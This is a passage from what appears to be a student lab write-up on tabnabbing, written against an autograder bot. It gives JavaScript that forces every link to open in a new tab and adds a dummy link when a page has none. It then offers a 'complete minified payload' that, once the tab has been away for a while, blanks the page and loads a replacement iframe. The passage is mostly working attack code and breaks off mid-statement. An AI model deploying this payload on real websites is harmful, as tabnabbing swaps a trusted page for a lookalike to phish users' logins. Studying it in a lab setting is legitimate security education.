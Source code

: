 During testing, I discovered that some pages had no links at all. The autograder would fail because there was nothing to click.

### Solution: Create a Dummy Link

```javascript
function m() {
  var l = document.links;

  if (!l.length) {
    // No links exist - create one for testing
    var x = document.createElement("a");
    x.href = "/";
    x.textContent = "link";
    x.style =
      "display:block;padding:20px;margin:20px;color:#07f;text-decoration:underline;font-size:18px;cursor:pointer";
    document.body.prepend(x);
    l = document.links;
  }

  // Modify all links
  for (var j = 0; j < l.length; j++) {
    l[j].setAttribute("target", "_blank");
  }
}
```

This ensured there was always at least one link for the bot to click.

## Final Solution

### Complete Minified Payload

```javascript
window.gotYou = 1;
var t = 0,
  a = 0,
  i = null;
function m() {
  var l = document.links;
  if (!l.length) {
    var x = document.createElement("a");
    x.href = "/";
    x.textContent = "link";
    x.style =
      "display:block;padding:20px;margin:20px;color:#07f;text-decoration:underline;font-size:18px;cursor:pointer";
    document.body.prepend(x);
    l = document.links;
  }
  for (var j = 0; j < l.length; j++) l[j].setAttribute("target", "_blank");
}
function s() {
  if (i) clearInterval(i);
  i = setInterval(function () {
    if (a && ++t >= 60) {
      clearInterval(i);
      document.body.innerHTML = "";
      document.body.style =
        "margin:0;padding:0;overflow:hidden;background:#fff";
      var f = document.createElement("iframe");
      f.src = "/tabnabbing/gguruvelli3";
      f.style =
```